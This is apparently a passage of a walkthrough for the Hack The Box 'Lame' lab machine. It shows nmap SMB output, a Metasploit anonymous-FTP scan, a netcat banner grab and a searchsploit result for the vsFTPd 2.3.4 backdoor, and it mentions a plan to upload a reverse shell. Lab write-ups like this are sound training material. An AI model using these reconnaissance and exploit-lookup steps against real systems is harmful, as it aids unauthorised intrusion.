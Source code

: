 ```
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-04-27T18:26:05-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
...
```
The FTP looks interesting, let's try that out first.

## 2. First Attack on FTP
Shows Port 21 FTP Login allowed amongst other opened ports. Let's see if we can first upload a reverse shell.
```
hippoeug@kali:~$ msfconsole
msf6 > use auxiliary/scanner/ftp/anonymous
msf6 auxiliary(scanner/ftp/anonymous) > show options

Module options (auxiliary/scanner/ftp/anonymous):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FTPPASS  mozilla@example.com  no        The password for the specified username
   FTPUSER  anonymous            no        The username to authenticate as
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    21                   yes       The target port (TCP)
   THREADS  1                    yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/ftp/anonymous) > set rhost 10.129.137.142
rhost => 10.129.137.142
msf6 auxiliary(scanner/ftp/anonymous) > run

[+] 10.129.137.142:21     - 10.129.137.142:21 - Anonymous READ (220 (vsFTPd 2.3.4))
[*] 10.129.137.142:21     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Unfortunately we only get anonymous read access.

Doing `nc 10.10.10.3 21` also confirms it is running `vsFTPd v2.3.4`.
```
hippoeug@kali:~$ nc 10.129.137.142 21
220 (vsFTPd 2.3.4)
```

And `searchsploit vsftpd 2.3.4` shows `Backdoor Command Execution`.
```
hippoeug@kali:~$ searchsploit vsftpd 2.3.4
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                              | unix/remote/17491.rb
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```